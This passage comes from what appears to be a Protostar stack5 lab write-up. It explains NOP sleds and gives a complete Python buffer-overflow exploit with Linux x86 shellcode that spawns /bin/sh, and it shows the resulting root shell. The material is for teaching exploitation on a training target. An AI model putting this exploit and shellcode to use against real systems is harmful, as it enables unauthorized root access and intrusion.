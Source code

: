 Therefore, it is preferable to "slide" the execution to the target address instead of pointing directly to it. To accomplish this, the usage of a *NOP-sled* is needed.

#### NOP-Sled

A NOP-sled is a sequence of NOP instructions to make the execution slide to the next memory address with a valid instruction. A NOP-sled will be placed after the return pointer in the constructed payload. Using a large number of NOPs will increase the chance to jump into the crafted exploit, in case the hijacked return pointer misses and point to a NOP, it will just slide to the end of the payload which contains the instructions to be executed.

#### Weaponization
To weaponize the vulnerability, a shellcode for Linux x86 Intel architecture based on [Andres C. Rodriguez ](http://shell-storm.org/shellcode/files/shellcode-906.php)'s concept will be injected at the end of the payload. The Python script used to abuse the buffer overflow with a shellcode injection is:

```python
import struct

padding = '\xAA' * 76
returnPointer = struct.pack("I", 0xbffff7c0)
nopSled = "\x90" * 50
payload = "\x83\xc4\x18\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

print(padding + returnPointer + nopSled + payload)
```

**Note:** The return pointer can be any value that lands in the NOP sled.

As a consequence a shell is popped back to us:
```bash
user@protostar:~$ (python overflow_stack5_1.py; cat) | /opt/protostar/bin/stack5
#
# whoami
root
```
**Note** `cat` was used to keep the stdin open and introduce commands that will be passed to the popped shell.

**HAPPY HACKING :)**
